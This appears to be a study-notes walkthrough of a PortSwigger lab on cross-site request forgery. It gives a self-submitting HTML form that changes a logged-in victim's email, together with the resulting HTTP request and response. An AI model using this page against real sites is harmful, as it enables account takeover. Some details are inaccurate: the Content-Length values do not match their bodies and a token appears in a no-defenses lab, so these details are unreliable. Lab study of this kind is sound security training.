

## Crafting the Malicious Request

To exploit the CSRF vulnerability, we need to craft a malicious request that changes the user's email address. We will use Burp Suite Professional to capture and modify the request.

### Step-by-Step Process

1. **Capture the Original Request**:
    - Log into the web application using the provided credentials.
    - Navigate to the email change functionality.
    - Use Burp Suite Professional to intercept and capture the original request sent to the server when changing the email address.

2. **Modify the Request**:
    - Modify the captured request to include the desired email address.
    - Ensure that the request includes all necessary parameters and headers to make it appear legitimate.

3. **Craft the Malicious HTML**:
    - Create an HTML page that includes the modified request. This HTML page will be hosted on an exploit server and used to trick the user into executing the request.

### Example Code

Here is an example of the malicious HTML page:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <h1>CSRF Exploit</h1>
    <form id="csrfForm" method="POST" action="http://example.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="hidden" name="token" value="valid-token">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

### Explanation of the Code

- **HTML Form**: The form is set to submit a POST request to the email change endpoint (`http://example.com/change-email`).
- **Hidden Inputs**: The form includes hidden inputs for the email address and a token (if required by the web application).
- **JavaScript**: The JavaScript automatically submits the form when the page loads, ensuring that the user does not need to manually trigger the request.

### Full HTTP Request and Response

When the form is submitted, the following HTTP request is sent to the server:

```http
POST /change-email HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

email=attacker%40example.com&token=valid-token
```

The server responds with a success message:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html
Content-Length: 21

Email changed successfully!
```

### Sequence Diagram

A sequence diagram can help visualize the interaction between the user, the attacker, and the web application during a CSRF attack.



---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/02-Lab 1 CSRF vulnerability with no defenses/02-Common Pitfalls and Detection|Common Pitfalls and Detection]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/02-Lab 1 CSRF vulnerability with no defenses/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/02-Lab 1 CSRF vulnerability with no defenses/04-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]]
